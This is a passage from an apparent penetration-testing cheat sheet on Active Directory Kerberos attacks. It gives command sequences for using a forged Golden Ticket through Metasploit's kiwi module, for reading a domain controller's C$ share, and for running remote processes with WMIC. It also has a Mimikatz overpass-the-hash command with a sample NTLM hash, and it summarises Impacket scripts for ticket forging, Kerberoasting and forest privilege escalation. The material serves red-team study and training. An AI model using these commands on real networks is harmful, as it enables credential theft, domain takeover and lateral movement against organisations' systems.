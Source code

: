     * Load mimikatz
      * \>use kiwi
    * Check current Kerberos Tickets
      * \> kerberos\_ticket\_list
    * Purge all Kerberos Tickets
      * \>kerberos\_ticket\_purge
    * Local our Golden Ticket (stored in /opt/ticekt.txt in our vm)
      * \>kerberos\_ticket\_use /opt/ticket.txt
    * Drop into a shell and read files off the DC
      * \>shell
      * \> dir \ \DC\c$
    * Once we are authed using the Golden ticket, we can send Domain admin commands using WMIC
    * Example: execute a ping commmand and write that to a file on a remote server
      * wmic /authority:"Kerberos:\[attacker.domain] \\\[target hostname]" /node:\[target hostname] process call create "cmd /c ping 127.0.0.1 > C:\log.txt


{% endtab %}

{% tab title="OverPTH" %}
* Overpass the Hash
  * Over abuse NTLM user hash to gain a full Kerberos TGT
  * The essence of the overpass the hash technique is to turn the NTLM hash into a Kerberos ticketand avoid the use of NTLM authentication. A simple way to do this is again with the sekurlsa::pth command from Mimikatz.
  * \#mimikatz # sekurlsa::pth /user:jeff\_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
{% endtab %}

{% tab title="Impacket" %}
Impacket scripts

* [GetTGT.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/getTGT.py) Given a password, hash or aesKey, this script will request a TGT and save it as ccache.
* [GetST.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/getST.py) Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate switch to request the ticket on behalf another user.
* [GetPac.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/getPac.py) This script will get the PAC (Privilege Attribute Certificate) structure of the specified target user just having a normal authenticated user credentials. It does so by using a mix of \[MS-SFU]'s S4USelf + User to User Kerberos Authentication.
* [GetUserSPNs.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/GetUserSPNs.py) This example will try to find and fetch Service Principal Names that are associated with normal user accounts. Output is compatible with JtR and HashCat.
* [GetNPUsers.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/GetNPUsers.py) This example will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF\_DONT\_REQUIRE\_PREAUTH). Output is compatible with JtR.
* [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/ticketConverter.py): This script will convert kirbi files, commonly used by mimikatz, into ccache files used by Impacket, and vice versa.
* [ticketer.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/ticketer.py) This script will create Golden/Silver tickets from scratch or based on a template (legally requested from the KDC) allowing you to customize some of the parameters set inside the PAC\_LOGON\_INFO structure, in particular the groups, ExtraSids, duration, etc.
* [raiseChild.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/raiseChild.py) This script implements a child-domain to forest privilege escalation
{% endtab %}
{% endtabs %}
